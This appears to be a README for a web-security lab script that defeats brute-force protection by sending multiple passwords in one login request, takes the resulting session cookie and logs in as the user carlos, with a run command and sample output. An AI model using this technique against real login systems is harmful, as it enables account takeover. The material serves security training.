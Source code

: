 ## Hack Steps
1. Send multiple passwords in the same login request
2. Obtain the new session from cookie header
3. Login as carlos with the new session

# Run Script
1. Change the URL of the lab
2. Start script
```
~$ python broken_brute_force_protection_multiple_credentials_per_request.py
```

# Expected Output
```
[*] Sending multiple passwords in the same request..☑️
✅ Successfully logged in as carlos
[#] Use this 2aQWuvvBd0vzGRtC4UE3YSTzFzJDPx7Z session in your browser to login as carlos
```

